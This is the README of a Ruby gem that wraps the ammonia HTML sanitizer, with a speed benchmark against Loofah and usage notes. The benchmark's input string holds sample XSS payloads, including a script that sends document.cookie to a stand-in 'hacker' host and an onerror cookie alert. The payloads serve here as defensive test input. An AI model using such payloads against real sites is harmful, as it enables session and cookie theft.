 # Sterilize

Sterilize is a gem which uses the Rust library [ammonia](https://github.com/rust-ammonia/ammonia) to provide text sanitization

> Ammonia is a whitelist-based HTML sanitization library. It is designed to prevent cross-site scripting, layout breaking, and clickjacking caused by untrusted user-provided HTML being mixed into a larger web page.

## Why not Loofah

Loofah is popular, but can be difficult to deal with in terms of configuration and usage. `Sterilize` aims to be essentially zero configuration and provides a very simple API (one method!). Give it a string and get back a sanitized version.

Take a look at the specs directory to see some of the cases that get handled. They are mostly provided for documentation purposes as the `ammonia` library is extensively [tested](https://github.com/rust-ammonia/ammonia/blob/master/src/lib.rs)

Finally, Sterilize is _fast_.

```ruby
unsafe_string = "I am nice safe user input, nothing to see here.. <script>console.log('installing bitcoin miner')</script><SCRIPT>var+img=new+Image();img.src='http://hacker/'%20+%20document.cookie;</SCRIPT><img src='http://url.to.file.which/not.exist' onerror=alert(document.cookie);><a href='data:text/html;base64,PHNjcmlwdD5hbGVydCgna25pZ2h0c3RpY2sgd2FzIGhlcmUnKTwvc2NyaXB0Pg=='>HACK HACK HACK</a>" * 1000


Benchmark.bm do | benchmark |
  benchmark.report("Sterilize#perform") do
    50.times do
      Sterilize.perform(unsafe_string)
    end
  end
  benchmark.report("Loofah.scrub_fragment(unsafe_string, :prune).to_str") do
    50.times do
      Loofah.scrub_fragment(unsafe_string, :prune).to_str
    end
  end
end
```

As you can see, Sterilize can operate significantly faster (somewhere in the ballpark of 9-10 times faster). As with all benchmarks though, your mileage may vary and it's important to see how things work in practice for you.

| Library                                             | user       | system   | total      | real         |
| --------------------------------------------------- | ---------- | -------- | ---------- | ------------ |
| Sterilize#perform                                   | 1.284460   | 0.006097 | 1.290557   | ( 1.295062)  |
| Loofah.scrub_fragment(unsafe_string, :prune).to_str | 10.183802  | 0.064826 | 10.248628  | ( 10.274430) |

## Installation

In order to use this library you will need to have access to Rust's build tooling [cargo](https://doc.rust-lang.org/cargo/getting-started/installation.html), this simplest way to get this is via [rustup](https://rustup.rs/).

After ensuring you have these things available, add the gem to your bundle

```ruby
gem 'sterilize'
```

And then execute:

    $ bundle

Or install it yourself as:

    $ gem install sterilize

`sterilize` includes a Rake take which will compile the Rust library for your platform and copy it to the correct location.

## Usage

`sterilize` provides a single method, `Sterilize.perform` which accepts a string.

```shell
pry(main)> unsafe_string = "I am nice safe user input, nothing to see here.. <script>console.log('installing bitcoin miner')</script>"
pry(main)> Sterilize.perform(unsafe_string)
=> "I am nice safe user input, nothing to see here.. "
```

Passing anything other than a `String` will result in an error.

## Development

After checking out the repo, run `bin/setup` to install dependencies. Then, run `rake test` to run the tests. You can also run `bin/console` for an interactive prompt that will allow you to experiment.

To install this gem onto your local machine, run `bundle exec rake install`. To release a new version, update the version number in `version.rb`, and then run `bundle exec rake release`, which will create a git tag for the version, push git commits and tags, and push the `.gem` file to [rubygems.org](https://rubygems.org).

## Contributing

Bug reports and pull requests are welcome on GitHub at https://github.com/[USERNAME]/sterilize. This project is intended to be a safe, welcoming space for collaboration, and contributors are expected to adhere to the [Contributor Covenant](http://contributor-covenant.org) code of conduct.

## License

The gem is available as open source under the terms of the [MIT License](https://opensource.org/licenses/MIT).
